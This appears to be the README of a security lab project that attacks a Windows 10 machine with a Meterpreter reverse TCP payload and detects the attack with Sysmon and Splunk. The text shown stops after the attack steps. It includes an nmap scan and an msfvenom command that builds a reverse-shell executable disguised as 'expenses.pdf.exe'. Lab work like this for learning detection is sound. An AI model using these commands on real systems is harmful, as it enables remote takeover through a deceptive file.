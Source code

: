 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview
This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using sysmon and Splunk

## Tools used
- Kali Linux (attacker machine)
- Windows 10 (victim machine)
- Splunk
- Sysmon

## Attack Simulation
Payload: `windows/meterpreter/reverse_tcp` \
Tools used: `msfvenom`, `msfconsole`

Steps taken:
1. Find an open port using nmap -A -Pn <Victim IP address>
2. Generate the payload using:
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
 -f exe -o expenses.pdf.exe
3. Deliver the payload to the victim machine

